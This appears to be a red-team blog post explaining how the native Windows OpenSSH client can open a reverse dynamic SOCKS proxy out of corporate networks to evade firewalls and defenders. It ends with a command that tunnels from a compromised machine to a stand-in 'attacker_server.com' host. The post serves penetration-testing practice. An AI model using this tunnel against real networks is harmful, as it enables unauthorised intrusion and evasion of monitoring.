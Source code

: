  

SSH tunnelling is of course not our primary nor sole way to tunnel out of a client’s network ([wink wink](https://labs.jumpsec.com/ligolo-quality-of-life-on-red-team-engagements/)), but whenever I am in a pinch, and nothing else works, this little tool has served me oh-so-well.

Shoutout to recent blog posts describing similar flavors of the SSH tunnelling technique:

- [Living off the land with native SSH and split tunnelling](https://www.pentestpartners.com/security-blog/living-off-the-land-with-native-ssh-and-split-tunnelling/) - by PTP’s Joe Blogs in Mar 2024, a concise summary of the fundamental form of this technique
- [SSHishing – Abusing Shortcut Files and the Windows SSH Client for Initial Access](https://redsiege.com/blog/2024/04/sshishing-abusing-shortcut-files-and-the-windows-ssh-client-for-initial-access/) - by Red Siege’s Alex Reid in Apr 2024 going over the interesting take on using Lnk files to turn the SSH tunnelling command into a phishing payload
- [The SOCKS we have at Home](https://trustedsec.com/blog/the-socks-we-have-at-home) - by TRUSTEDSEC’s Esteban Rodriguez in Oct 2023 detailing creation of a limtedaccess user on the remote server for better Opsec

 

## Let’s cut to the chase

The OpenSSH client is natively available in almost all Windows machines with an OS / Service Pack later than early 2018, more specifically Win10 v1709 and Win Server v1803. (To the Windows sysadmin reading this, you don’t have to use Putty anymore!)

Furthermore, the stars were so aligned in 2017 that, right before Microsoft ported OpenSSH to Windows, the OpenSSH project implemented the reverse dynamic proxy feature, a bit obscurely (if you ask me!) reusing the -R flag [in version 7.6](https://www.openssh.com/txt/release-7.6). (This has been explained in the ChangeLog for 7 years but yet not many people are talking about this, which shows that RTFM does, in fact, often pay off.)

In 2024, corporate laptops or workstations are almost universally on either Windows 10 or 11, and that means the ssh command is, on most pentesting or adversarial gigs, sitting in the PATH of the client’s machine without needing us to install or enable anything extra.

> _To make this as unambiguous as I can - the **native** ssh command on Windows 10/11 devices has been allowing anyone to start a reverse & dynamic SOCKS proxy into any internal network since 2017! And that makes it possible to run tools like Impacket scripts, Netexec (formerly Crackmapexec) or Certipy natively behind the SOCKS proxy on a remote Linux server, while to the defender the traffic appears to originate from the compromised machine._

 

And in 2024, many corporate firewalls still allow SSH outbound from workstations, or are configured in such a way that it is relatively trivial to bypass, and blue teams are often not watching ssh being executed because of how much of a LOLBIN it is.

## 3 Tricks to punch through Corporate firewalls

### 1\. Basic form: -R

On the compromised Windows or Nix machine, run SSH with either the binary's name:

> ```
> ssh -R PROXY_PORT user@attacker_server.com
> ```
